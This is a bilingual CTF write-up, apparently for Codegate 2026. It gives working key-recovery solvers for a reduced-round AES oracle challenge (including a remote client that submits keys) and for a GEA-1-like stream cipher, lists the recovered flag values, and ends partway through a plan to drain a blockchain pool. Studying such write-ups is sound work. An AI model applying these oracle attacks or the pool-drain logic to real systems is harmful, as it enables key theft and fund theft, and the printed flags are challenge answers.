INV_SBOX = aes5.INV_SBOX
MIX_COLS = {
    0: [2, 1, 1, 3],
    1: [3, 2, 1, 1],
    2: [1, 3, 2, 1],
    3: [1, 1, 3, 2],
}
INV_MIX_COLS = {
    0: [14, 9, 13, 11],
    1: [11, 14, 9, 13],
    2: [13, 11, 14, 9],
    3: [9, 13, 11, 14],
}
GF_INV = {}
for value in {1, 2, 3, 9, 11, 13, 14}:
    for cand in range(256):
        if aes5.gf_mul(value, cand) == 1:
            GF_INV[value] = cand
            break

class RetrySession(Exception):
    pass

class SolveFailure(Exception):
    pass

def xor_bytes(a: bytes, b: bytes) -> bytes:
    return bytes(x ^ y for x, y in zip(a, b))

def shift_rows_bytes(block: bytes) -> bytes:
    state = aes5.bytes_to_state(block)
    aes5.shift_rows(state)
    return aes5.state_to_bytes(state)

def inv_shift_rows_bytes(block: bytes) -> bytes:
    state = aes5.bytes_to_state(block)
    aes5.inv_shift_rows(state)
    return aes5.state_to_bytes(state)

def sub_bytes_only(block: bytes) -> bytes:
    state = aes5.bytes_to_state(block)
    aes5.sub_bytes(state)
    return aes5.state_to_bytes(state)

def inv_sub_bytes_only(block: bytes) -> bytes:
    state = aes5.bytes_to_state(block)
    aes5.inv_sub_bytes(state)
    return aes5.state_to_bytes(state)

def mix_columns_bytes(block: bytes) -> bytes:
    state = aes5.bytes_to_state(block)
    aes5.mix_columns(state)
    return aes5.state_to_bytes(state)

def inv_mix_columns_bytes(block: bytes) -> bytes:
    state = aes5.bytes_to_state(block)
    aes5.inv_mix_columns(state)
    return aes5.state_to_bytes(state)

def A(block: bytes) -> bytes:
    state = aes5.bytes_to_state(block)
    aes5.sub_bytes(state)
    aes5.shift_rows(state)
    aes5.mix_columns(state)
    return aes5.state_to_bytes(state)

def invA(block: bytes) -> bytes:
    state = aes5.bytes_to_state(block)
    aes5.inv_mix_columns(state)
    aes5.inv_shift_rows(state)
    aes5.inv_sub_bytes(state)
    return aes5.state_to_bytes(state)

def B(block: bytes) -> bytes:
    state = aes5.bytes_to_state(block)
    aes5.sub_bytes(state)
    aes5.shift_rows(state)
    return aes5.state_to_bytes(state)

def invB(block: bytes) -> bytes:
    state = aes5.bytes_to_state(block)
    aes5.inv_shift_rows(state)
    aes5.inv_sub_bytes(state)
    return aes5.state_to_bytes(state)

def inv_mc_word(word: bytes) -> bytes:
    if len(word) != 4:
        raise ValueError("word must be 4 bytes")
    return inv_mix_columns_bytes(word + b"\x00" * 12)[:4]

def words(block: bytes) -> List[bytes]:
    return [block[i : i + 4] for i in range(0, 16, 4)]

def replace_word(block: bytes, idx: int, value: bytes) -> bytes:
    start = 4 * idx
    return block[:start] + value + block[start + 4 :]

def simple_swap(x0: bytes, x1: bytes) -> bytes:
    out = list(words(x1))
    w0 = words(x0)
    w1 = words(x1)
    for idx in range(4):
        if w0[idx] != w1[idx]:
            out[idx] = w0[idx]
            break
    return b"".join(out)

def active_byte_block(pos: int, value: int) -> bytes:
    block = bytearray(16)
    block[pos] = value
    return bytes(block)

SR_OUTPUT_POS = {}
INV_SR_OUTPUT_POS = {}
for q in range(16):
    block = bytearray(16)
    block[q] = 1
    shifted = shift_rows_bytes(bytes(block))
    j = shifted.index(1)
    SR_OUTPUT_POS[q] = j
    INV_SR_OUTPUT_POS[j] = q

@dataclass
class KeyRecovery:
    k0: bytes
    k1: bytes
    k2: bytes
    k3: bytes
    k4: bytes
    k5: bytes

class BaseOracle:
    def __init__(self) -> None:
        self.queries_used = 0

    def encrypt(self, pt: bytes) -> bytes:
        raise NotImplementedError

    def decrypt(self, ct: bytes) -> bytes:
        raise NotImplementedError

    def submit(self, keys: Sequence[bytes]) -> str:
        raise NotImplementedError

    def close(self) -> None:
        pass

class LocalOracle(BaseOracle):
    def __init__(self, round_keys: Optional[List[bytes]] = None) -> None:
        super().__init__()
        self.round_keys = round_keys or aes5.generate_random_round_keys()

    def encrypt(self, pt: bytes) -> bytes:
        self.queries_used += 1
        return aes5.aes5_encrypt_block(pt, self.round_keys)

    def decrypt(self, ct: bytes) -> bytes:
        self.queries_used += 1
        return aes5.aes5_decrypt_block(ct, self.round_keys)

    def submit(self, keys: Sequence[bytes]) -> str:
        return "ok" if list(keys) == self.round_keys else "wrong"

class RemoteOracle(BaseOracle):
    def __init__(self, host: str, port: int, timeout: float = 5.0) -> None:
        super().__init__()
        self.host = host
        self.port = port
        self.sock = socket.create_connection((host, port), timeout=timeout)
        self.sock.settimeout(timeout)
        self.buf = bytearray()

    def close(self) -> None:
        try:
            self.sock.close()
        except OSError:
            pass

    def _recv_until(self, marker: bytes) -> bytes:
        while marker not in self.buf:
            chunk = self.sock.recv(4096)
            if not chunk:
                raise EOFError("connection closed")
            self.buf.extend(chunk)
        idx = self.buf.index(marker) + len(marker)
        out = bytes(self.buf[:idx])
        del self.buf[:idx]
        return out

    def _recv_line(self) -> bytes:
        return self._recv_until(b"\n")

    def _send_line(self, line: bytes) -> None:
        self.sock.sendall(line + b"\n")

    def encrypt(self, pt: bytes) -> bytes:
        self._recv_until(b"> ")
        self._send_line(b"1")
        self._recv_until(b"pt> ")
        self._send_line(pt.hex().encode())
        line = self._recv_line().strip()
        self.queries_used += 1
        return bytes.fromhex(line.decode())

    def decrypt(self, ct: bytes) -> bytes:
        self._recv_until(b"> ")
        self._send_line(b"2")
        self._recv_until(b"ct> ")
        self._send_line(ct.hex().encode())
        line = self._recv_line().strip()
        self.queries_used += 1
        return bytes.fromhex(line.decode())

    def submit(self, keys: Sequence[bytes]) -> str:
        self._recv_until(b"> ")
        self._send_line(b"3")
        self._recv_until(b"k0> ")
        for idx, key in enumerate(keys):
            self._send_line(key.hex().encode())
            if idx != 5:
                self._recv_until(f"k{idx + 1}> ".encode())
        return self._recv_line().decode().strip()

class SessionSolver:
    def __init__(self, oracle: BaseOracle):
        self.oracle = oracle

    def log(self, message: str) -> None:
        print(message, flush=True)

    def enc_super(self, block: bytes) -> bytes:
        return inv_shift_rows_bytes(self.oracle.encrypt(inv_shift_rows_bytes(block)))

    def dec_super(self, block: bytes) -> bytes:
        return shift_rows_bytes(self.oracle.decrypt(shift_rows_bytes(block)))

    def enc4(self, k0: bytes, u: bytes) -> bytes:
        pt = xor_bytes(k0, invA(u))
        return self.oracle.encrypt(pt)

    def dec4(self, k0: bytes, ct: bytes) -> bytes:
        pt = self.oracle.decrypt(ct)
        return A(xor_bytes(pt, k0))

    def enc2(self, k0: bytes, k1: bytes, k5: bytes, a: bytes) -> bytes:
        pt = xor_bytes(k0, invA(xor_bytes(invA(a), k1)))
        ct = self.oracle.encrypt(pt)
        return inv_mix_columns_bytes(invB(xor_bytes(ct, k5)))

    def dec2(self, k0: bytes, k1: bytes, k5: bytes, y: bytes) -> bytes:
        ct = xor_bytes(B(mix_columns_bytes(y)), k5)
        pt = self.oracle.decrypt(ct)
        return A(xor_bytes(A(xor_bytes(pt, k0)), k1))

    def yoyo_pairs(self, p0: bytes, p1: bytes, count: int, include_initial: bool) -> List[Tuple[bytes, bytes]]:
        pairs: List[Tuple[bytes, bytes]] = []
        if include_initial:
            pairs.append((p0, p1))
        a, b = p0, p1
        while len(pairs) < count:
            c0 = self.enc_super(a)
            c1 = self.enc_super(b)
            c00 = simple_swap(c0, c1)
            c01 = simple_swap(c1, c0)
            p00 = self.dec_super(c00)
            p01 = self.dec_super(c01)
            a = simple_swap(p00, p01)
            b = simple_swap(p01, p00)
            pairs.append((a, b))
        return pairs

    def recover_first_k0_word_candidates(self, first_words: Sequence[Tuple[bytes, bytes]], i: int) -> List[bytes]:
        left_map: Dict[bytes, List[int]] = collections.defaultdict(list)
        right_seqs: List[bytes] = [b""] * 256

        for k2 in range(256):
            seq = bytes(
                aes5.gf_mul(SBOX[a[2] ^ k2] ^ SBOX[b[2] ^ k2], 2)
                for a, b in first_words
            )
            left_map[seq].append(k2)

        for k3 in range(256):
            right_seqs[k3] = bytes(
                aes5.gf_mul(SBOX[a[3] ^ k3] ^ SBOX[b[3] ^ k3], 3)
                for a, b in first_words
            )

        out = []
        for k0 in range(256):
            k1 = k0 ^ i
            t_seq = bytes(
                SBOX[a[0] ^ k0] ^ SBOX[b[0] ^ k0] ^ SBOX[a[1] ^ k1] ^ SBOX[b[1] ^ k1]
                for a, b in first_words
            )
            for k3, r_seq in enumerate(right_seqs):
                need = xor_bytes(t_seq, r_seq)
                for k2 in left_map.get(need, ()):
                    out.append(bytes([k0, k1, k2, k3]))
        return out

    def recover_followup_k0_word(self, pairs: Sequence[Tuple[bytes, bytes]], word_idx: int) -> bytes:
        alpha = INV_MIX_COLS[word_idx]
        alpha0_inv = GF_INV[alpha[0]]
        candidates = []

        for g0 in range(256):
            possible = [{g0}, set(range(256)), set(range(256)), set(range(256))]
            ok = True
            for pa, pb in pairs:
                wa = pa[4 * word_idx : 4 * word_idx + 4]
                wb = pb[4 * word_idx : 4 * word_idx + 4]
                d0 = SBOX[wa[0] ^ g0] ^ SBOX[wb[0] ^ g0]
                scale = aes5.gf_mul(d0, alpha0_inv)
                for pos in (1, 2, 3):
                    target = aes5.gf_mul(scale, alpha[pos])
                    good = {
                        key
                        for key in possible[pos]
                        if (SBOX[wa[pos] ^ key] ^ SBOX[wb[pos] ^ key]) == target
                    }
                    possible[pos] = good
                    if not good:
                        ok = False
                        break
                if not ok:
                    break
            if ok:
                for g1 in possible[1]:
                    for g2 in possible[2]:
                        for g3 in possible[3]:
                            candidates.append(bytes([g0, g1, g2, g3]))

        if len(candidates) != 1:
            raise SolveFailure(f"expected one K0 follow-up candidate for word {word_idx}, got {len(candidates)}")
        return candidates[0]

    def recover_k0(self) -> bytes:
        min_future = 20 + 3072
        word0 = None

        for i in range(256):
            if i % 8 == 0:
                self.log(f"[k0] searching i={i}, queries={self.oracle.queries_used}")
            if self.oracle.queries_used + 16 + min_future > QUERY_LIMIT:
                raise RetrySession("K0 first word would leave too little budget")
            p0 = bytes([0, i, 0, 0] + [0] * 12)
            p1 = bytes([1, 1 ^ i, 0, 0] + [0] * 12)
            pairs = self.yoyo_pairs(p0, p1, count=5, include_initial=True)
            first_words = [(a[:4], b[:4]) for a, b in pairs]
            candidates = self.recover_first_k0_word_candidates(first_words, i)
            if len(candidates) == 1:
                word0 = candidates[0]
                self.log(f"[k0] word0 found at i={i}, queries={self.oracle.queries_used}")
                break

        if word0 is None:
            raise RetrySession("failed to recover K0 first word in budget")

        aprime = b"\x00\x00\x00\x00"
        bprime = b"\x01\x00\x00\x00"
        a0 = xor_bytes(bytes(INV_SBOX[b] for b in inv_mc_word(aprime)), word0)
        b0 = xor_bytes(bytes(INV_SBOX[b] for b in inv_mc_word(bprime)), word0)
        p0 = a0 + b"\x00" * 12
        p1 = b0 + b"\x00" * 12
        pairs = self.yoyo_pairs(p0, p1, count=5, include_initial=False)

        k0_prime = bytearray(16)
        k0_prime[:4] = word0
        try:
            for word_idx in (1, 2, 3):
                k0_prime[4 * word_idx : 4 * word_idx + 4] = self.recover_followup_k0_word(pairs, word_idx)
        except SolveFailure as exc:
            raise RetrySession(f"K0 follow-up was ambiguous: {exc}") from exc
        self.log(f"[k0] done, queries={self.oracle.queries_used}")
        return inv_shift_rows_bytes(bytes(k0_prime))

    def progressive_square_last_round(
        self,
        query_fn,
        preprocess_fn,
        key_table: Sequence[int],
        positions: Sequence[int],
        extra_budget: int,
    ) -> bytes:
        candidates = [set(range(256)) for _ in range(16)]

        for idx, pos in enumerate(positions):
            samples = [query_fn(pos, x) for x in range(256)]
            for byte_idx in range(16):
                good = set()
                for guess in range(256):
                    acc = 0
                    for sample in samples:
                        acc ^= key_table[preprocess_fn(sample, byte_idx, guess)]
                    if acc == 0:
                        good.add(guess)
                candidates[byte_idx] &= good

            if all(len(c) == 1 for c in candidates):
                return bytes(next(iter(c)) for c in candidates)
            if idx == 1 and not all(len(c) == 1 for c in candidates):
                if self.oracle.queries_used + 256 + extra_budget > QUERY_LIMIT:
                    raise RetrySession("need a third square set but budget is too tight")

        if not all(len(c) == 1 for c in candidates):
            raise RetrySession("square candidates not unique enough")
        return bytes(next(iter(c)) for c in candidates)

    def recover_k5(self, k0: bytes) -> bytes:
        positions = [0, 5, 10]

        def query_fn(pos: int, x: int) -> bytes:
            return self.enc4(k0, active_byte_block(pos, x))

        def preprocess(sample: bytes, idx: int, guess: int) -> int:
            return sample[idx] ^ guess

        return self.progressive_square_last_round(
            query_fn=query_fn,
            preprocess_fn=preprocess,
            key_table=INV_SBOX,
            positions=positions,
            extra_budget=512 + 1024 + 1024,
        )

    def recover_k1(self, k0: bytes, k5: bytes) -> bytes:
        positions = [0, 5, 10]

        def query_fn(pos: int, x: int) -> bytes:
            t3 = active_byte_block(pos, x)
            ct = xor_bytes(B(t3), k5)
            return self.dec4(k0, ct)

        def preprocess(sample: bytes, idx: int, guess: int) -> int:
            return sample[idx] ^ guess

        return self.progressive_square_last_round(
            query_fn=query_fn,
            preprocess_fn=preprocess,
            key_table=SBOX,
            positions=positions,
            extra_budget=1024 + 1024,
        )

    def recover_k4_prime(self, k0: bytes, k1: bytes, k5: bytes) -> Tuple[bytes, Tuple[bytes, bytes]]:
        recovered = [None] * 16
        sample_pair = (b"", b"")

        for p in (0, 1, 2, 3):
            row = p % 4
            col = p // 4
            active_col = (col - row) % 4
            outputs = [self.enc2(k0, k1, k5, active_byte_block(p, x)) for x in range(256)]
            if p == 0:
                sample_pair = (active_byte_block(p, 0), outputs[0])
            out_positions = [SR_OUTPUT_POS[4 * active_col + r] for r in range(4)]
            coeffs = MIX_COLS[row]
            buckets = [collections.defaultdict(list) for _ in range(4)]
            base = outputs[0]

            for idx, out_pos in enumerate(out_positions):
                coeff_inv = GF_INV[coeffs[idx]]
                for guess in range(256):
                    base_val = INV_SBOX[base[out_pos] ^ guess]
                    seq = bytes(
                        aes5.gf_mul(INV_SBOX[y[out_pos] ^ guess] ^ base_val, coeff_inv)
                        for y in outputs[1:]
                    )
                    buckets[idx][seq].append(guess)

            common = set(buckets[0].keys())
            for idx in range(1, 4):
                common &= set(buckets[idx].keys())
            if len(common) != 1:
                raise SolveFailure("K4' trace intersection was not unique")

            seq = next(iter(common))
            for idx, out_pos in enumerate(out_positions):
                choices = buckets[idx][seq]
                if len(choices) != 1:
                    raise SolveFailure("K4' byte trace was ambiguous")
                recovered[out_pos] = choices[0]

        if any(v is None for v in recovered):
            raise SolveFailure("failed to fill all K4' bytes")
        return bytes(recovered), sample_pair

    def recover_k2(self, k0: bytes, k1: bytes, k5: bytes, k4_prime: bytes) -> bytes:
        recovered = [None] * 16
        coeffs = INV_MIX_COLS[0]

        for c in range(4):
            q = 4 * c
            outputs = []
            for x in range(256):
                s2 = active_byte_block(q, x)
                y = xor_bytes(B(s2), k4_prime)
                outputs.append(self.dec2(k0, k1, k5, y))

            plain_positions = [4 * ((c + r) % 4) + r for r in range(4)]
            buckets = [collections.defaultdict(list) for _ in range(4)]
            base = outputs[0]

            for idx, plain_pos in enumerate(plain_positions):
                coeff_inv = GF_INV[coeffs[idx]]
                for guess in range(256):
                    base_val = SBOX[base[plain_pos] ^ guess]
                    seq = bytes(
                        aes5.gf_mul(SBOX[a[plain_pos] ^ guess] ^ base_val, coeff_inv)
                        for a in outputs[1:]
                    )
                    buckets[idx][seq].append(guess)

            common = set(buckets[0].keys())
            for idx in range(1, 4):
                common &= set(buckets[idx].keys())
            if len(common) != 1:
                raise SolveFailure("K2 trace intersection was not unique")

            seq = next(iter(common))
            for idx, plain_pos in enumerate(plain_positions):
                choices = buckets[idx][seq]
                if len(choices) != 1:
                    raise SolveFailure("K2 byte trace was ambiguous")
                recovered[plain_pos] = choices[0]

        if any(v is None for v in recovered):
            raise SolveFailure("failed to fill all K2 bytes")
        return bytes(recovered)

    def recover_all(self) -> KeyRecovery:
        self.log(f"[stage] starting session, queries={self.oracle.queries_used}")
        k0 = self.recover_k0()
        self.log(f"[stage] K0 recovered, queries={self.oracle.queries_used}")
        k5 = self.recover_k5(k0)
        self.log(f"[stage] K5 recovered, queries={self.oracle.queries_used}")
        k1 = self.recover_k1(k0, k5)
        self.log(f"[stage] K1 recovered, queries={self.oracle.queries_used}")
        k4_prime, sample = self.recover_k4_prime(k0, k1, k5)
        self.log(f"[stage] K4' recovered, queries={self.oracle.queries_used}")
        k2 = self.recover_k2(k0, k1, k5, k4_prime)
        self.log(f"[stage] K2 recovered, queries={self.oracle.queries_used}")

        sample_a, sample_y = sample
        s2 = invB(xor_bytes(sample_y, k4_prime))
        k3 = xor_bytes(s2, A(xor_bytes(sample_a, k2)))
        k4 = mix_columns_bytes(k4_prime)

        return KeyRecovery(k0=k0, k1=k1, k2=k2, k3=k3, k4=k4, k5=k5)

def run_one_session(oracle: BaseOracle) -> Tuple[KeyRecovery, str]:
    solver = SessionSolver(oracle)
    keys = solver.recover_all()
    answer = oracle.submit([keys.k0, keys.k1, keys.k2, keys.k3, keys.k4, keys.k5])
    return keys, answer

def local_self_test(trials: int) -> None:
    done = 0
    attempts = 0
    while done < trials:
        attempts += 1
        oracle = LocalOracle()
        try:
            keys, answer = run_one_session(oracle)
        except RetrySession as exc:
            print(f"[local attempt {attempts}] retry after {oracle.queries_used} queries: {exc}")
            continue
        if answer != "ok":
            raise SolveFailure(f"local self-test failed on attempt {attempts}")
        done += 1
        print(
            f"[local {done}/{trials}] ok on attempt {attempts}, queries={oracle.queries_used}, "
            f"k0={keys.k0.hex()} k5={keys.k5.hex()}"
        )

def parse_endpoint(text: str) -> Tuple[str, int]:
    host, port = text.rsplit(":", 1)
    return host, int(port)

def remote_loop(endpoints: Sequence[Tuple[str, int]], delay: float) -> None:
    attempt = 0
    for host, port in itertools.cycle(endpoints):
        attempt += 1
        oracle: Optional[RemoteOracle] = None
        try:
            print(f"[attempt {attempt}] connecting to {host}:{port}", flush=True)
            oracle = RemoteOracle(host, port)
            keys, answer = run_one_session(oracle)
            print(f"[attempt {attempt}] queries={oracle.queries_used}", flush=True)
            print(f"[attempt {attempt}] k0={keys.k0.hex()}", flush=True)
            print(answer)
            return
        except RetrySession as exc:
            if oracle is not None:
                print(
                    f"[attempt {attempt}] retrying after {oracle.queries_used} queries: {exc}",
                    flush=True,
                )
            else:
                print(f"[attempt {attempt}] retrying before session start: {exc}", flush=True)
        except (EOFError, OSError, socket.timeout, SolveFailure, ValueError) as exc:
            msg = f"{type(exc).__name__}: {exc}"
            if oracle is not None:
                print(f"[attempt {attempt}] failed after {oracle.queries_used} queries: {msg}", flush=True)
            else:
                print(f"[attempt {attempt}] failed: {msg}", flush=True)
        finally:
            if oracle is not None:
                oracle.close()
        if delay:
            time.sleep(delay)

def main() -> None:
    parser = argparse.ArgumentParser(description="Solve the aes5 challenge.")
    parser.add_argument("--local", action="store_true", help="run against local random keys")
    parser.add_argument("--trials", type=int, default=1, help="number of local self-test trials")
    parser.add_argument(
        "--endpoint",
        action="append",
        help="remote endpoint in host:port form; can be repeated",
    )
    parser.add_argument("--delay", type=float, default=0.2, help="delay between failed remote attempts")
    args = parser.parse_args()

    if args.local:
        local_self_test(args.trials)
        return

    endpoints = [parse_endpoint(ep) for ep in args.endpoint] if args.endpoint else DEFAULT_ENDPOINTS
    random.shuffle(endpoints)
    remote_loop(endpoints, delay=args.delay)

if __name__ == "__main__":
    main()
```

本地自测:

Local Self-Test: 

```Bash
py solve.py --local --trials 1
```

远程直接打:

Remote direct call:

```Bash
py solve.py
```

脚本会:

The script will: 

1. 自动随机选择给定的 3 个远程 endpoint

   Automatically and randomly select the given 3 remote endpoints

2. 自动处理菜单协议

   Automatic Processing Menu Protocol 

3. 自动重连坏 session

   Automatically reconnect broken sessions 

4. 成功后直接提交 6 组 key

   Directly submit 6 sets of keys after success 

### **GEA1337**

题目先给出了初始化后的前 64 bit keystream，然后继续输出 256 bit keystream 去异或花括号里的 64 个十六进制字符。只要恢复出初始化结束时的 64 位状态 `S`，后面的 flag 主体就能直接还原。

The question first provides the first 64-bit keystream after initialization, and then continues to output a 256-bit keystream to XOR the 64 hexadecimal characters within the curly braces. As long as the 64-bit state `S` at the end of initialization is recovered, the main body of the flag can be directly restored. 

这里最大的坑是寄存器初始化。虽然布尔函数、寄存器长度和 tap 看起来和 GEA-1 很像，但题目里 `S -> A/B/C` 的装载方式不是原版 GEA-1 的那套整数位序，直接套现成的 `GEA1_break` 会跑偏。正确做法是把题目自己的线性装载关系重新写成三个线性映射：

The biggest pitfall here is register initialization. Although the Boolean function, register length, and tap seem very similar to GEA-1, the loading method of ` S -> A/B/C ` in the problem is not the original integer bit order of GEA-1, and directly applying the ready-made ` GEA1_break ` will lead to deviation. The correct approach is to rewrite the problem's own linear loading relationship into three linear mappings: 

- `S -> A0`
- `S -> B0`
- `S -> C0`

把这三个线性映射的核空间重新分解以后，可以得到和论文里同样的维数结构：

After re-decomposing the kernel spaces of these three linear maps, we can obtain the same dimensional structure as in the paper: 

- `ker(B) = 32`
- `ker(A, C) = 24`
- 余下补空间维数是 `8`
- The dimension of the remaining complementary space is `8`

于是整个状态空间仍然能写成

Thus the entire state space can still be written as 

```Plain
S = v1 ^ v2 ^ v3
```

其中：

Where: 

- `v1` 是 8 维补空间
- `v1` is an 8-dimensional complementary space
- `v2` 在 `ker(A, C)`，只影响 `B`
- `v2` is in `ker(A, C)`, only affecting `B`
- `v3` 在 `ker(B)`，只影响 `A` 和 `C`
- `v3` is in `ker(B)`, only affecting `A` and `C`

这样就可以把前 64 bit keystream 写成：

In this way, the first 64-bit keystream can be written as: 

```Plain
KS64 = B64(v1 ^ v2) ^ (A64(v1 ^ v3) ^ C64(v1 ^ v3))
```

接着做一个标准 meet-in-the-middle：

Then perform a standard meet-in-the-middle: 

1. 固定一个 `v1`

   Fix a `v1`

2. 枚举全部 `2^24` 个 `v2`，计算 `B64(v1 ^ v2)`，建哈希表

   Enumerate all`2^24` instances of `v2`, calculate `B64(v1 ^ v2)`, and build a hash table

3. 枚举全部 `2^32` 个 `v3`，计算 `A64(v1 ^ v3) ^ C64(v1 ^ v3)`，用 `KS64` 异或后去查表

   Enumerate all`2^32` instances of `v3`, calculate `A64(v1 ^ v3) ^ C64(v1 ^ v3)`, XOR with `KS64` and then look up the table

4. 命中后得到唯一状态

   Obtain a unique state after hitting 

为了把总时间压下来，这一步用 CUDA 实现。核心就是把题目寄存器的真实推进规则写成对应的 Galois mask：

To reduce the total time, this step is implemented using CUDA. The core is to write the real advancement rules of the topic register into the corresponding Galois mask: 

- `A` 使用 `0x5a521cc9`

  `A` uses `0x5a521cc9`

- `B` 使用 `0x8ae6109d`

  `B` uses `0x8ae6109d`

- `C` 使用 `0x150236b3d`

  `C` uses `0x150236b3d`

在这套精确模型下，真实样本命中了：

Under this set of precise models, the real samples hit:

```Plain
v1 = 0x48
v2 = 0xc76cdf
v3 = 0x6592f20d
S  = 0xf8028182f3559e9a
```

有了 `S` 以后，先验证前 64 bit keystream：

After having `S`, first verify the first 64-bit keystream:

```Plain
KS64 = 0x4e1c323798a8810d
```

然后继续生成后 256 bit keystream，与给定的 `out` 异或，就得到花括号里的十六进制串：

Then continue generating the subsequent 256-bit keystream, XOR it with the given ` out `, and you will obtain the hexadecimal string within the curly braces: 

```Plain
96cfd2fe2f77781f1285b9fcd205cd9f93672797707c78491c7682ecd4e465ac
```

#### exp

```Python
#!/usr/bin/env python3
from pathlib import Path
import sys
from typing import List, Optional, Tuple

ROOT = Path(__file__).resolve().parent
OUTPUT_PATH = ROOT / "output.txt"

# Recovered in writeup.md after the MITM step.
RECOVERED_STATE = 0xF8028182F3559E9A
FLAG_PREFIX = "codegate2026"
FLAG_HEX_LEN = 64

def reverse_bits(value: int, bitlen: int) -> int:
    return int(f"{value:0{bitlen}b}"[::-1], 2)

def int_to_bits(value: int, bitlen: int) -> List[int]:
    return [(value >> shift) & 1 for shift in range(bitlen - 1, -1, -1)]

def bits_to_int(bits: List[int]) -> int:
    value = 0
    for bit in bits:
        value = (value << 1) | bit
    return value

def parse_output_file(path: Path) -> Tuple[int, int, int]:
    lines = [line.strip() for line in path.read_text().splitlines() if line.strip()]
    if len(lines) != 3:
        raise ValueError(f"expected 3 non-empty lines in {path}, got {len(lines)}")
    iv, ks64, out = (int(line, 16) for line in lines)
    return iv, ks64, out

def f(x0: int, x1: int, x2: int, x3: int, x4: int, x5: int, x6: int) -> int:
    return (
        x0 * x2 * x5 * x6
        ^ x0 * x3 * x5 * x6
        ^ x0 * x1 * x5 * x6
        ^ x1 * x2 * x5 * x6
        ^ x0 * x2 * x3 * x6
        ^ x1 * x3 * x4 * x6
        ^ x1 * x3 * x5 * x6
        ^ x0 * x2 * x4
        ^ x0 * x2 * x3
        ^ x0 * x1 * x3
        ^ x0 * x2 * x6
        ^ x0 * x1 * x4
        ^ x0 * x1 * x6
        ^ x1 * x2 * x6
        ^ x2 * x5 * x6
        ^ x0 * x3 * x5
        ^ x1 * x4 * x6
        ^ x1 * x2 * x5
        ^ x0 * x3
        ^ x0 * x5
        ^ x1 * x3
        ^ x1 * x5
        ^ x1 * x6
        ^ x0 * x2
        ^ x2 * x3
        ^ x2 * x5
        ^ x2 * x6
        ^ x4 * x5
        ^ x5 * x6
        ^ x1
        ^ x2
        ^ x3
        ^ x5
    )

class Register:
    def __init__(self, size: int, coeffs: List[int], f_positions: List[int], seed_bits: List[int]):
        self.size = size
        self.coeffs = coeffs
        self.f_positions = f_positions
        self.input_bits = seed_bits[:]
        self.state = [0] * size

    def load(self) -> None:
        while self.input_bits:
            self.clock(self.input_bits.pop())
        if not any(self.state):
            self.state[0] = 1

    def clock(self, inp: Optional[int] = None) -> None:
        top = self.state[0] ^ (inp if inp is not None else 0)
        if top:
            for coeff in self.coeffs:
                self.state[coeff] ^= top
        self.state = self.state[1:] + [top]

    def output(self) -> int:
        taps = [self.state[pos] for pos in self.f_positions]
        return f(*taps)

class GEA1337FromState:
    def __init__(self, state_int: int):
        s_bits = int_to_bits(state_int, 64)
        self.a = Register(
            size=31,
            coeffs=[1, 4, 7, 8, 11, 12, 13, 18, 21, 23, 26, 28, 29],
            f_positions=[22, 0, 13, 21, 25, 2, 7],
            seed_bits=list(reversed(s_bits)),
        )
        self.b = Register(
            size=32,
            coeffs=[1, 3, 4, 5, 8, 13, 18, 19, 22, 23, 24, 26, 28],
            f_positions=[12, 27, 0, 1, 29, 21, 5],
            seed_bits=list(reversed(s_bits[16:] + s_bits[:16])),
        )
        self.c = Register(
            size=33,
            coeffs=[1, 3, 4, 5, 6, 9, 10, 12, 14, 15, 17, 18, 22, 29, 31],
            f_positions=[10, 30, 32, 3, 19, 0, 4],
            seed_bits=list(reversed(s_bits[32:] + s_bits[:32])),
        )
        self.a.load()
        self.b.load()
        self.c.load()

    def gen(self, bitlen: int) -> int:
        bits = []
        for _ in range(bitlen):
            bits.append(self.a.output() ^ self.b.output() ^ self.c.output())
            self.a.clock()
            self.b.clock()
            self.c.clock()
        return bits_to_int(list(reversed(bits)))

def recover_flag(output_path: Path) -> str:
    _iv, expected_ks64, out = parse_output_file(output_path)
    # The recovered S in writeup.md is expressed in the solver's bit order.
    # gea1337.py seeds A/B/C from S.R in big-endian register order, so we
    # normalize it once here before reconstructing the keystream generator.
    cipher = GEA1337FromState(reverse_bits(RECOVERED_STATE, 64))
    ks64 = cipher.gen(64)
    if ks64 != expected_ks64:
        raise ValueError(
            f"keystream mismatch: expected 0x{expected_ks64:016x}, got 0x{ks64:016x}"
        )

    flag_body = out ^ cipher.gen(FLAG_HEX_LEN * 4)
    return f"{FLAG_PREFIX}{{{flag_body:0{FLAG_HEX_LEN}x}}}"

def main() -> None:
    output_path = Path(sys.argv[1]) if len(sys.argv) > 1 else OUTPUT_PATH
    print(recover_flag(output_path))

if __name__ == "__main__":
    main()
```

## MISC

### WelcomeFlag

从网络上搜到旗语对照表，与视频的旗语进行对照

Search for the semaphore signal comparison table on the internet and compare it with the semaphore signals in the video



得到flag

Get the flag

## blockchain

### conero

#### **题目概览** | **Question Overview**

这题的核心是一个自定义原生合约 `Conero`，地址固定为：

The core of this problem is a custom native contract ` Conero `, with a fixed address of: 

```Plain
0x00000000000000000000000000000000000010c0
```

从环境配置可以看到几个关键条件：

Several key conditions can be seen from the environmental configuration: 

- 玩家初始资金为 `1.1 ETH`

  The player's initial funds are ` 1.1 ETH `

- 题目预先往池子里放了 `7 ETH`

  Put `7 ETH`

- flag 校验要求：

  Flag verification requirements:

  - `pool balance == 0`
  - `balance(0x1337) > 7 ETH`

所以目标非常清晰：

So the goal is very clear: 

1. 先想办法把池子里的钱全部提空

   First, find a way to empty all the money in the pool 

2. 让 `0x1337` 的余额严格大于初始池子的 `7 ETH`

   Make the balance of `0x1337` strictly greater than `7 ETH of the initial pool`

正常情况下玩家手里只有 `1.1 ETH`，显然不够直接把 `7 ETH` 提走，因此一定存在私有转账证明上的逻辑漏洞。

Under normal circumstances, the player only has `1.1 ETH` in hand, which is clearly not enough to directly withdraw `7 ETH`, so there must be a logical vulnerability in the private transfer proof.

#### **Flag 条件** | **Flag Condition**

`/{uuid}/flag` 的判断逻辑是：

`/{uuid}/flag`'s judgment logic is:

```Go
if poolBalance.Cmp(big.NewInt(0)) != 0 {
    return "pool balance is not zero"
}
if balance1337.Cmp(initialPool) <= 0 {
    return "0x1337 balance is not greater than initial deposit pool"
}
```

其中 `initialPool = PrefundAccountCount * DepositAmountWei = 1 * 7 ETH`。

这意味着最理想的打法就是：

This means that the most ideal strategy is: 

- 我们自己往池子里再存 `1 ETH`

  We put another `1 ETH`

- 然后把“同一张 note”扩成 `8 ETH` 提现到 `0x1337`

  Then expand "the same note" to `8 ETH` and withdraw it to `0x1337`

这样最终状态会变成：

The final state will then become: 

- 池子初始 `7 ETH`

  Pool Initial `7 ETH`

- 我们存入 `1 ETH`

  We deposit `1 ETH`

